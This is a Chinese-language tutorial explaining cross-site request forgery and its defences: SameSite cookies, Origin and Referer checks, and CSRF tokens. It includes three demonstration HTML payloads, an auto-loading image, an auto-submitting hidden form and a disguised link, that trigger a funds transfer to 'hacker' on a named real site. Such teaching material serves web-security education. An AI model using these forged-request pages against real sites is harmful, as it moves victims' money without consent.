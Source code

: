 # CSRF攻击
CSRF(Cross-site request forgery),"跨站请求伪造"，是指黑客引诱用户打开黑客的网站，在黑客的网站中，利用用户的登录状态发起的跨站请求。   
**和XSS不同，CSRF攻击不需要将恶意代码注入到用户的页面，仅仅是利用服务器的漏洞和用户的登录状态来实施攻击。** 
## 三种方式
具有转账功能的网站  
```

# 同时支持 POST 和 Get
# 接口 
https://time.geekbang.org/sendcoin
# 参数
## 目标用户
user
## 目标金额
number
```
### 1.自动发起Get请求
```

<!DOCTYPE html>
<html>
  <body>
    <h1> 黑客的站点：CSRF 攻击演示 </h1>
    <img src="https://time.geekbang.org/sendcoin?user=hacker&number=100">
  </body>
</html>
```
黑客将转账的请求接口隐藏在img标签中，伪装为图片资源，被加载时，浏览器自动发起img的资源请求，如果服务器没有对该请求做判断的话，那么服务器就会认为该请求是一个转账请求。

### 2.自动发起POST请求
```

<!DOCTYPE html>
<html>
<body>
  <h1> 黑客的站点：CSRF 攻击演示 </h1>
  <form id='hacker-form' action="https://time.geekbang.org/sendcoin" method=POST>
    <input type="hidden" name="user" value="hacker" />
    <input type="hidden" name="number" value="100" />
  </form>
  <script> document.getElementById('hacker-form').submit(); </script>
</body>
</html>
```
黑客在页面构建一个**隐藏的表单**，内嵌转账接口，当用户打开站点后，表单会自动执行提交；表单提交后，服务器就会执行转账操作。

### 3.引诱用户点击链接
```

<div>
  <img width=150 src=http://images.xuejuzi.cn/1612/1_161230185104_1.jpg> </img> </div> <div>
  <a href="https://time.geekbang.org/sendcoin?user=hacker&number=100" taget="_blank">
    点击下载美女照片
  </a>
</div>
```
将转账接口伪装为图片下载地址

## 如何防止CSRF攻击
CSRF攻击的三个必要条件  
- 目标站点一定要有CSRF漏洞
- 用户要登录过目标站点，并且在浏览器上保持有该站点的登录状态
- 需要用户打开一个第三方站点，可以是黑客的站点，也可以是一些论坛

### 1.充分利用好Cookie的SameSite属性
**Cookie是浏览器和服务器之间维护登录状态的一个关键数据**  
通常CSRF攻击都是从第三方站点发起的，要防止CSRF攻击，最好实现从第三方站点发送请求时禁止Cookie的发送。  
- 如果是从第三方站点发起的请求，那么需要浏览器禁止发送某些关键Cookie数据到服务器
- 如果是同一个站点发起的请求，那么就需要保证Cookie数据正常发送  

在HTTP相应头中，通过set-cookie字段设置Cookie时，可以带上SameSite选项   
```

set-cookie: 1P_JAR=2019-10-20-06; expires=Tue, 19-Nov-2019 06:36:21 GMT; path=/; domain=.google.com; SameSite=none
```
**SameSite选项通常有Strict、Lax和None三个值**  
- 如果SameSite的值是Strict,那么浏览器会完全禁止第三方Cookie
- Lax。在跨站点的情况下，从第三方站点的链接打开和从第三方站点提交Get方式的表单这两种方式都会携带Cookie。但如果在第三方站点中使用Post方法，或者通过img、iframe等标签加载的URL，这些场景都不会携带Cookie
- None。在任何情况下都会发送Cookie数据

### 2.验证请求的来源站点
**在服务器端验证请求来源的站点**  
- Referer是HTTP请求头中的一个字段，记录了该HTTP请求的来源地址  

![](img/Referer.png)  

- Origin属性：在一些重要的场合，比如通过XMLHttpRequest、Fecth发起跨站请求或者通过Post方法发送请求时，都会带上Origin属性  

![](img/Origin.png)  

服务器的策略是优先判断Origin，如果请求头中没有包含Origin属性，再根据实际情况判断是否使用Referer值

### 3.CSRF Token
1. 在浏览器向服务器发起请求时，服务器生成一个CSRF Token。CSRF Token其实就是服务器生成的字符串，然后将该字符串植入到返回的页面中。

```

<!DOCTYPE html>
<html>
<body>
    <form action="https://time.geekbang.org/sendcoin" method="POST">
      <input type="hidden" name="csrf-token" value="nc98P987bcpncYhoadjoiydc9ajDlcn">
      <input type="text" name="user">
      <input type="text" name="number">
      <input type="submit">
    </form>
</body>
</html>
```
2. 在浏览器端如果要发起转账的请求，那么需要带上页面中的CSRF Token，然后服务器会验证该Token是否合法。如果是从第三方站点发起请求，那么将无法获取到CSRF Token的值，所以即使发起了请求，服务器也会因为CSRF Token不正确而拒绝请求。